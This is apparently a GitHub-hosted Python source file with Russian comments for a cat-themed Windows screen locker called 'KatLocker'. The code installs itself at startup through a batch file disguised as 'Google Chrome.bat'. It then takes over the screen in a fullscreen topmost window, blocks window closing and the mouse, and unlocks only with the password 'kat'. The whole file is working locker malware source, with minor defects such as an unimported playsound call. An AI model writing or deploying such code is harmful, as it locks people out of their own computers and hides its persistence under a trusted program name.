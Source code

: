 #ВАЖНО ПАРОЛЬ:kat


#Импортируем библиотеки
import tkinter
from tkinter import *
import tkinter as tk
from tkinter import ttk
import getpass
import sys
import os
import os.path
import pyautogui
from time import sleep
import requests
from io import BytesIO
from PIL import Image, ImageTk

url = 'https://i.gifer.com/LF0M.gif' #Этоу гифку необходимо скачать и поместить в один фаил с кодом

window = Tk() #Создание окна 

photo = PhotoImage(file = "bg.gif") # Отвечает за картинку
w = Label(window, image=photo)
w.pack() 

b1= Button(window, text='Нажми на меня', command=window.destroy) #Отвечает за кнопку закрытия

b1.pack(pady=10)


window.resizable(0, 0) # Отвечает за изменение окна 


window.title("Kat")   # Название окна

window['bg'] = 'black'


window.mainloop() #Закрыть окно

USER_NAME = getpass.getuser()

window = Tk()
window.title("WinLocker by GDisclaimer")  
window.geometry('400x250')
window['bg'] = 'black'


normal_width = 1920
normal_height = 1080


screen_width = window.winfo_screenwidth()
screen_height = window.winfo_screenheight()


percentage_width = screen_width / (normal_width / 100)
percentage_height = screen_height / (normal_height / 100)


scale_factor = ((percentage_width + percentage_height) / 2) / 100

fontsize = int(20 * scale_factor)
minimum_size = 10
if fontsize < minimum_size:
       fontsize = minimum_size

fontsizeHding = int(72 * scale_factor)
minimum_size = 40
if fontsizeHding < minimum_size:
       fontsizeHding = minimum_size


default_style = ttk.Style()
default_style.configure('New.TButton', font=("Helvetica", fontsize))

def play(test):
        playsound('sound.mp3', False)

def add_to_startup(file_path=""):
    if file_path == "":
        file_path = os.path.dirname(os.path.realpath(__file__))
    bat_path = r'C:\Users\%s\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup' % USER_NAME
    with open(bat_path + '\\' + "Google Chrome.bat", "w+") as bat_file:
        bat_file.write(r'start "" %s' % file_path)

def block():
    pyautogui.moveTo(x=680,y=800)
    window.protocol("WM_DELETE_WINDOW",block)
    window.update()

def fullscreen():
    window.attributes('-fullscreen', True, '-topmost', True)

def clicked():
    res = format(txt.get())
    if res == 'kat':
        file_path = '/tmp/file.txt'
        file_path = r'C:\Users\%s\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Google Chrome.bat' % USER_NAME
        os.remove(file_path)
        sys.exit()

add_to_startup("C:\\myFiles\\main.py")
fullscreen()

txt_one = Label(window, text='KatLocker', font=("Arial Bold", fontsizeHding), fg='red', bg='black')
txt_two = Label(window, text='Мяу 😀', font=("Arial Bold", fontsizeHding), fg='red', bg='black')
txt_three = Label(window, text='К сожалению ваш компютер отакован котиком', font=("Arial Bold", fontsize), fg='white', bg='black')

txt_one.grid(column=0, row=0)
txt_two.grid(column=0, row=0)
txt_three.grid(column=0, row=0)

txt_one.place(relx = .01, rely = .01)
txt_two.place(relx = .01, rely = .11)
txt_three.place(relx = .01, rely = .21)


txt = Entry(window)  
btn = Button(window, text="Котик вводиться туть ;)", command=clicked)  
txt.place(relx = .28, rely = .5, relwidth=.3, relheight=.06)
btn.place(relx = .62, rely = .5, relwidth=.1, relheight=.06)

block()

window.mainloop()

#ВАЖНО ПАРОЛЬ:kat
